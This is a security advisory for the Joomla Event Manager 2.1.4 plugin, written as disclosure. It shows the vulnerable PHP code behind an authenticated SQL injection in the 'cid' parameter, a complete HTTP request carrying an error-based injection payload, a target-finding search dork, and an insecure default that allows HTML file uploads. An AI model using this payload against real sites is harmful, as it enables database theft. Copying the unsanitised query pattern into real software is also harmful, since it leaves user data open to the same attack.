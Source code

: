 # Joomla Event Manager 2.1.4 - Multiple Vulnerabilities #

* _Author_: Martino Sani
* _Release date_: 2015-08-12
* _Vendor Homepage_: www.joomlaeventmanager.net
* _Software Link_: www.joomlaeventmanager.net/download?download=50:jem-2-1-4-stable
* _Version_: 2.1.4
* _Google Dork_: inurl:option=com_jem
* _Exploit-DB_: www.exploit-db.com/exploits/37767/
* _CVE_: -

I identified some vulnerabilities and insecure settings in Joomla Event Manager plugin, `JEM 2.1.4`. A malicious user could use these issues to access back-end database data and attack application clients. Attacker must have valid authentication credentials to exploit these issues.

## SQL Injection ##

Authenticated user can execute arbitrary SQL queries via SQL injection in the functionality that allows to publish/unpublish an event.
Vulnerable resource is `index.php?option=com_jem&view=myevents` and the injection point is `cid` parameter.

**Source code**
```php
// sites/models/myevents.php
function publish($cid = array(), $publish = 1)
{   
    if (is_array($cid) && count($cid)) {
       $cids = implode(',', $cid);

       $query = 'UPDATE #__jem_events'
         . ' SET published = '. (int) $publish
         . ' WHERE id IN ('. $cids .')'
         . ' AND (checked_out = 0 OR (checked_out = ' .$userid. '))';

       $this->_db->setQuery($query);
   }
}
```
**PoC**
```
POST /joomla3.4.3/index.php?option=com_jem&view=myevents&Itemid=151 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Cookie: 55cfbe406ffe44b0159d9a943820d207=gauuoq0rqlakkltqj4dd1mpd76; jpanesliders_stat-pane=0; jpanesliders_event-sliders-10=2; d6300469df4ad94ccc019d02bc74f647=4339lu3g2tn4lhg2lvgd8ft263
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 352

filter=1&filter_search=&limit=10&cid%5B%5D=1,2)%20AND%20(SELECT%206959%20FROM(SELECT%20COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.TABLES%20GROUP%20BY%20x)a)%20AND%20(1577=1577&filter_order=a.dates&filter_order_Dir=&enableemailaddress=0&boxchecked=1&task=myevents.unpublish&option=com_jem&5c597c6e06b1d6627024f147b562ecaf=1
```
-------------------------------------------------------------------------------------------

## Insecure File Upload ##

Default JEM settings allow to upload HTML/HTM files as event's attachment.
An authenticated attacker could upload malicious HTML/HTM files with malicious code (e.g. Javascript).
These attachments could be reachable on `<website>/media/com_jem/attachments/event/event[id]/` or downloaded and executed locally by the victim's browser.

Attachments process is handled by `/site/classes/attachments.class.php` file.  
File types allowed by default are in the `/admin/sql/install.mysql.utf.sql` file.

-------------------------------------------------------------------------------------------

## NOTES ##

* 2015-08-01: Vendor notification.
* 2015-08-12: Vendor fixes the issues in the development branch.

The author is not responsible for the misuse of the information provided in this security advisory.

